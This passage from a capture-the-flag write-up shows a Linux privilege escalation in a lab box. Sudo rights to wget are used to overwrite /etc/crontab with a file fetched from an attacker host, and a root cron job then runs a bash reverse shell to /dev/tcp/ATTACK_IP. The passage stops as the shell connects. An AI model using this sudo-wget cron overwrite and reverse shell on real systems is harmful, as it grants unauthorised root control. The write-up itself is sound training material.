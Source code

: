 Let's start with a proof of concept - here, we copy `/etc/crontab` from the target machine and add a new root job that creates a file in `/home/jessie` (I have no idea how fragile the syntax of the `/etc/crontab` file is - i've just made an effort to respect the whitespace etc. of the existing jobs) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ cat crontab-poc
# /etc/crontab: system-wide crontab
...snip...
* *    * * *   root    touch /home/jessie/poc.txt
```

We then host `crontab-poc` on the attack machine and download it to the target machine with `sudo wget`, overwriting the existing `/etc/crontab` file :

```console
jessie@CorpOne:~/Documents$ sudo wget ATTACK_IP/crontab-poc -O /etc/crontab
--2021-09-07 05:32:41--  http://ATTACK_IP/crontab-poc
Connecting to ATTACK_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 802 [application/octet-stream]
Saving to: ‘/etc/crontab’

/etc/crontab                        100%[================================================================>]     802  --.-KB/s    in 0s

2021-09-07 05:32:41 (117 MB/s) - ‘/etc/crontab’ saved [802/802]
```
After a minute or so, we see the poc file in `/home/jessie`, owned by root :

```console
jessie@CorpOne:~$ ls -l | grep poc
-rw-r--r-- 1 root   root      0 sep  7 05:34 poc.txt
```

To translate our proof of concept into a root shell, we create a simple bash reverse shell at `/home/jessie/rs.sh` :

```console
jessie@CorpOne:~$ cat rs.sh
#!/bin/bash

bash -i >& /dev/tcp/ATTACK_IP/4242 0>&1
```

We then adapt `cronjob-poc` to execute the `rs.sh` script :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ cat crontab-poc
# /etc/crontab: system-wide crontab
...snip..
* *    * * *   root    bash /home/jessie/rs.sh
```

and we start a netcat listener on the attack machine and repeat the same sequence as before : host `crontab-poc` on the attacker machine and download with `sudo wget` on the target machine overwriting `/etc/crontab`. After a minute or so, the reverse shell connects :
